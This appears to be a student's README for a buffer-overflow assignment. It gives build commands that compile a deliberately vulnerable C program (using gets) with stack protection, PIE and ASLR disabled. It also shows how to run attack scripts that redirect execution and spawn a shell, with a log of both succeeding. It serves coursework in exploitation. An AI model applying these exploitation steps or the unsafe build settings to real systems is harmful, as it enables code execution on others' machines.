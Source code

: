 ### Manali Patil
### B-Number :- B01035189
### Programming Language : python

### Run the code using Make.sh

Command :- ./make.sh $arg0{this is target function address} $arg1{shellcode file}

for instance:-

******mpatil3@remote02:~/CS$./make.sh 08049196 shellcode*

### Note :-
if get below error for make.sh file while running :-

mpatil3@remote02:~/CS/bkp/proj1_mpatil3/proj1_mpatil3$ ./make.sh
bash: ./make.sh: Permission denied

Run below command

command :-chmod +x make.sh

for example:-
mpatil3@remote02:~/CS/bkp/proj1_mpatil3/proj1_mpatil3$ chmod +x make.sh
mpatil3@remote02:~/CS/bkp/proj1_mpatil3/proj1_mpatil3$./make.sh 08049196 shellcode

### Run withous using make.sh

commands:-
gcc -fno-stack-protector -z execstack -fno-pie -no-pie -m32 -O0 -g vuln_program.c -o vuln_program

## to check section 1 output
python3 attack.py 08049196
./vuln_program < attack_string

## to check section 2(bonus) output
python3 shellcode.py shellcode
setarch $(uname -m) -R ./vuln_program < shell_string



### Status :- Complete (both the section)

### Test cases :-

log:-
mpatil3@remote02:~/CS/proj3$ ./make.sh 08049196 shellcode
vuln_program.c: In function ‘prompt’:
vuln_program.c:15:9: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   15 |         gets(buf);
      |         ^~~~
      |         fgets
/usr/bin/ld: /tmp/ccBkfGQD.o: in function `prompt':
/home/mpatil3/CS/proj3/vuln_program.c:15: warning: the `gets' function is dangerous and should not be used.

***output for the first section of code---->***

***Output file 'attack_string' created successfully.***

You have entered the correct passwd

***output for the second section of code---->***

Output file 'shell_string' created successfully.
$ exit
 
